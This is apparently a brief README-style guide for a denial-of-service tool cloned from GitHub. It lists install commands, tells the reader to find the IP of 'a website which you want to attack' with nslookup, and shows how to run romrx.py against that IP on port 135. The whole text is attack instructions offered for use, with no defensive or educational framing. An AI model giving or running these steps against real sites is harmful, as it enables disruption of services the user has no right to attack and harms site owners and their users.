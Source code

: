 $ apt update
$ apt upgrade
$ apt install python
$ apt install git
$ apt install dnsutils
$ git clone https://github.com/RoMrx/ddosromrx/

the Name Server of a website which you want to attack...
To get the Name Server...just type
$ nslookup example.com
Note the IP Address of that Website

then
$ cd romrx
$ python romrx.py -s [ip Address] -t 135
example:
$ python romrx.py -s 123.45.67.89 -t 135
